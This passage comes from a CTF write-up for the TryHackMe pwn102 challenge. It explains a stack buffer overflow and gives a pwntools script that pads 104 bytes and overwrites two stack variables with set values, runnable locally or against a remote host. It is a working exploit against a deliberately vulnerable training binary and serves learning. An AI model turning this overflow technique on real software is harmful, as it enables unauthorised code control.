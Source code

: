 We can understand this 108 char will fill the buffer and overwrite “$rbp-4”. But $rbp-8?

```nasm
$rbp - 4 = 108
$rbp - 8 = 104
```

So our exploit is gonna be:

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

exe = './pwn102.pwn102'
context.binary = ELF(exe,checksec=False)

def start(argv=[], *a, **kw):
        if args.REMOTE: # Runs on remote server, usage "python2.7 code.py REMOTE ip port"
                return remote(sys.argv[1], sys.argv[2], *a, **kw)
        else: # Runs locally, usage "python2.7 code.py"
                return process([exe] + argv, *a, **kw)

exploit  = b''
exploit += b"\x90"*104 # we fill the buffer 
exploit += pack("<I", 0xc0d3) # we overwrite $rbp-8
exploit += pack("<I", 0xc0ff33) # we overwrite $rbp-4

#If you want to see what we wrote uncomment next two lines
#f = open("input.txt", "wb")
#f.write(exploit)

io = start()
io.sendline(exploit)
io.interactive()
```

We execute our python code locally and check if it works.

```bash
python2.7 code.py
```

![Untitled](/assets/images/Binary-Exploitation/Pwn101-TryHackMe-CTF-Writeup/Untitled%208.png)
